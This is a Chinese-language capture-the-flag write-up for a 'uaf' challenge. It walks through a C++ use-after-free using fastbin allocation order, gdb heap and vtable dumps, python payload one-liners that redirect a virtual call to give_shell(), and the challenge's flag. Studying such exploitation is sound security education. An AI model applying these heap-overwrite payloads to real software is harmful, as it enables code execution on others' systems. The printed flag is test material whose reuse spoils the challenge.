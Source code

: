 ### uaf

科普一个linux命令

`echo -en "\x66\x66\x66\x66" > test (<=="ffff")`

问题在于`Man,Woman`指针一直都在，而指向的内存 **部分可控**，并且有 **call内存** 的行为，考察的是fastbin的申请规则。

free后调用new，即可在原先位置上稍微带点限制地进行任意内容写。

先看一遍最正常的introduce的调用：
```
0x400fcd <main+265>: mov    rax,QWORD PTR [rbp-0x38] <---拿到Man的指针
0x400fd1 <main+269>: mov    rax,QWORD PTR [rax]  <---拿到Man中function所在的内存（可能叫虚表）
=> 0x400fd4 <main+272>: add    rax,0x8    <---拿到Man+8位置的东西（就是introduce()）
0x400fd8 <main+276>: mov    rdx,QWORD PTR [rax]
0x400fdb <main+279>: mov    rax,QWORD PTR [rbp-0x38]
0x400fdf <main+283>: mov    rdi,rax
0x400fe2 <main+286>: call   rdx      <----call Man->introduce()
```


到`0x400fd1`时
```
x $eax
0x204f040: 0x0000000000401570 <---Man虚函数所在的位置
```
更大的范围
```
gdb-peda$ x/20 $eax -0x40
0x1ee7000:      0x0000000000000000      0x0000000000000031
0x1ee7010:      0x0000000000000004      0x0000000000000004 <---Man的变量
0x1ee7020:      0x0000000000000000      0x000000006b63614a <---"Jack"
0x1ee7030:      0x0000000000000000      0x0000000000000021 <---Man的变量 end
0x1ee7040:      0x0000000000401570 <---Man的虚函数表      0x0000000000000019
0x1ee7050:      0x0000000001ee7028      0x0000000000000031
0x1ee7060:      0x0000000000000004      0x0000000000000004 <---Woman的变量
0x1ee7070:      0x0000000000000000      0x000000006c6c694a <---"Jill"
0x1ee7080:      0x0000000000000000      0x0000000000000021 <---Women的变量 end
0x1ee7090:      0x0000000000401550 <--Women的虚函数表     0x0000000000000015
```


到`0x400fd4`时
```
x/20 $rax-16
0x401560 <_ZTV3Man>:    0x0000000000000000      0x00000000004015d0 <--typeinfo
0x401570 <_ZTV3Man+16>: 0x000000000040117a <--give_shell()      0x00000000004012d2 <--introduce()
```

所以思路比较明确了，让Man+8的位置指向get_shell()而不是指向introduce()。

---------

先随便看看我们写入的东西在哪里吧

长度为 `24` 的时候
```
0x788040:       0x0000000000401570      0x0000000000000019
0x788050:       0x0000000000788028      0x0000000000000031
0x788060:       0x0000000000000004      0x0000000000000004
0x788070:       0x0000000000000000      0x000000006c6c694a
0x788080:       0x0000000000000000      0x0000000000000021
0x788090:       0x0000000000401550      0x0000000000000015
0x7880a0:       0x0000000000788078      0x0000000000020f61
0x7880b0:       0x0000000000000000      0x0000000000000000
0x7880c0:       0x0000000000000000      0x0000000000000000
0x7880d0:       0x0000000000000000      0x0000000000000000

0x788040:       0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x788050:       0xaaaaaaaaaaaaaaaa      0x0000000000000031
0x788060:       0x0000000000788000(这个是指向下一个free的fastbin的指针，在这里没啥用)
                0x0000000000000004
0x788070:       0x00000000ffffffff      0x000000006c6c694a
0x788080:       0x0000000000000000      0x0000000000000021
    <---这里数据并没有改变，因为是0x30大小的东西，不会被填进去（文末会有填充规则）
0x788090:       0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x7880a0:       0xaaaaaaaaaaaaaaaa      0x0000000000020f61（这个是指向堆顶的值）
0x7880b0:       0x0000000000000000      0x0000000000000000
0x7880c0:       0x0000000000000000      0x0000000000000000
0x7880d0:       0x0000000000000000      0x0000000000000000
```

所以，我们写入的前8个byte会被认为是get_shell的地址，然后call(addr(get_shell)+8)，将这8个byte改为addr(get_shell)-8就可以实现利用了。

于是我们写入`0x0000000000401568` + `0xaa*8` + `0xaa*8` 即可，当Man->introduce时候就会触发我们构造好的get_shell，之后输入 "3 2 1"，发现并没有成功，下面分析一下失败的原因。

在free过后，有几个可以填充的区域大概如下图
```
+---------+----------+-----------+------------+--------+
|junk 0x30| Man 0x20 | junk 0x30 | Woman 0x20 | so big |
+---------+----------+-----------+------------+--------+
```
经过debug，填充顺序是 Woman > Man > so big，所以我们321的话只写掉了Woman的数据，而call的时候是Man->introduce()再Woman->introduce()，前一句就会炸掉，所以利用不成功，之前还以为是 ~~Man>Woman>so big~~ 。

之后简单地改为 "3 2 2 1"即可拿到2次shell，分别是Man->introduce和Woman->introduce拿到的。当然，根据原理来看322222221也是可以的。

之后，我们来测试一下`junk 0x30`如何被利用，原理上是用 0x21~0x28的数据写的时候会申请0x30的空间，刚好可以覆盖的样子。
```x/40 $eax - 0x40
0x1c60000:      0x0000000000000000      0x0000000000000031
0x1c60010:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60020:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60030:      0xaaaaaaaaaaaaaaaa      0x0000000000000021
0x1c60040:      0x0000000000000000      0x0000000000000019
0x1c60050:      0x0000000001c60028      0x0000000000000031
0x1c60060:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60070:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60080:      0xaaaaaaaaaaaaaaaa      0x0000000000000021
0x1c60090:      0x0000000001c60030      0x0000000000000015
0x1c600a0:      0x0000000001c60078      0x0000000000020f61
0x1c600b0:      0x0000000000000000      0x0000000000000000
0x1c600c0:      0x0000000000000000      0x0000000000000000
0x1c600d0:      0x0000000000000000      0x0000000000000000
0x1c600e0:      0x0000000000000000      0x0000000000000000
0x1c600f0:      0x0000000000000000      0x0000000000000000
0x1c60100:      0x0000000000000000      0x0000000000000000
0x1c60110:      0x0000000000000000      0x0000000000000000
0x1c60120:      0x0000000000000000      0x0000000000000000
0x1c60130:      0x0000000000000000      0x0000000000000000
```

如图，我们覆盖成功了，同样，规则是优先覆盖右面的，然后覆盖左面的junk 0x30。


最后提供3种POC，利用的是 **Man->get_shell,Woman->get_shell,Humen->get_shell**

```
python -c "print '\x48\x15\x40\x00\x00\x00\x00\x00'+'\xaa'*90" > Woman
python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'+'\xaa'*90" > Man
python -c "print '\x88\x15\x40\x00\x00\x00\x00\x00'+'\xaa'*90" > Homan
./uaf 4~24均可 ./(Woman/Man/Human)均可
```

文末讨论一下 new char[len]是写在什么地方的。

1. fastbin最小的chunk是0x20个byte，其真正数据长度1<=len<=24；即new char[1]~new char[24]本质上是一样的
2. 文中Woman、Man的chunk大小是0x20，故free掉时候多出2个0x20的空间
3. 由于我们申请的是1~24，即0x20，所以会填入Woman和Man，顺序在于Man是先free掉的，Woman后free，故填充时优先填充Woman
4. 多次申请0x18的时候，整个流程为
  1. 看一眼woman，刚好，填充成功；
  2. 看一眼man，刚好，填充成功；
  3. 看一眼man之前的、之前的之前的，到头了，不成功，写入so big
  4. 同3
5. 多次申请0x28的时候，我们是为了填充文中的junk 0x30（虽然没什么卵用），顺序依然是从后到前，表现与4描述的一样
6. fastbin的原则（用来解释目前遇到过的现象）
  1. 单向链表存放
  2. 申请的时候，挨个比较`chunk`的大小，若刚好相同，则填入
  3. 若每个大小都不相同，则在`top`开一块内存


flag
`yay_f1ag_aft3r_pwning`
